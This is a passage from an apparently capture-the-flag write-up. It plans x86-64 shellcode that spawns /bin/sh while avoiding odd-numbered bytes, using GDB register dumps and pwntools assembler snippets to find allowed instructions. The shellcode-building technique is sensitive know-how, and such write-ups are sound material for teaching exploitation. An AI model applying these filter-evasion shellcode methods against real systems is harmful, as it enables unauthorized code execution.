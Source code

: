 ```
}
```
## Planning the Exploit: 

My ultimate goal is to string a shellcode together that will set rax to 0x3b, rdi to a /bin/sh string, rsi and rdx to 0, and call a syscall. Most of this will require odd bytes, for example, x86-64 shellcode for syscall is '\x0f\x05', so two odd bytes. 

I will note here that tools like msfvenom and pwntools do include shellcode encoders that can create shellcodes without certain bad bytes; i.e., you can generate a shellcode without any null bytes. However, I fiddled with both encoders for a bit, and I simply was not able to generate shellcodes without any of the odd-numbered bytes, probably because there were simply too many that disallowed very basic instructions like syscall.

My basic game plan was to come up with a few allowed instructions, then use them to edit various bytes within my shellcode space in order to create the instructions I want with odd bytes.  One important consideration was to see what registers would contain by default when my shellcode started running; I ran the program in GDB/GEF, set a breakpoint at main+363, which is the call instruction for my shellcode, and checked the register contents. I was particularly interested by the fact that rax, rdx, and rdi contain the addresses for the start of my shellcode. As a result, my plan is to see if, with any one of the registers, I can iterate/move their values upward to point to specific spots in the shellcode chunk, as well as iterate/move the values pointed to by these registers, which will be my actual shellcode.
```
$rax   : 0x0000133713370000  →  "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb"
$rbx   : 0x0               
$rcx   : 0x0               
$rdx   : 0x0000133713370000  →  "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb"
$rsp   : 0x00007fffffffdfa0  →  0x0000555555555330  →  <__libc_csu_init+0> push r15
$rbp   : 0x00007fffffffdfc0  →  0x0000555555555330  →  <__libc_csu_init+0> push r15
$rsi   : 0x1e              
$rdi   : 0x0000133713370000  →  "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb"
$rip   : 0x000055555555531e  →  <main+363> call rax
$r8    : 0xffffffff        
$r9    : 0x0               
$r10   : 0x00007ffff7fef7e0  →  <strcmp+2864> pxor xmm0, xmm0
$r11   : 0x246             
$r12   : 0x0000555555555090  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0
```
To test instructions, I used pwntools' shellcode assembler with trial and error in a python terminal. You need to make sure that the context architecture is 'amd64', then you can try various instructions and see the results. Here is a selection of the most relevant, allowed instructions/patterns; please note that attempts to move an odd number into a register will not work, and you will be better off moving in the target value - 1, then performing an inc to iterate it up by one:
```
>>> from pwn import *
>>> context.clear(arch='amd64')
>>> asm('mov eax, 2')
b'\xb8\x02\x00\x00\x00'
>>> asm('mov edx, 2')
b'\xba\x02\x00\x00\x00'
>>> asm('mov al, 2')
b'\xb0\x02'
>>> asm('mov dl, 2')
b'\xb2\x02'
>>> asm('inc al')
b'\xfe\xc0'
>>> asm('inc dl')
b'\xfe\xc2'
>>> asm('inc BYTE PTR ds:[rax];')
b'\xfe\x00'
```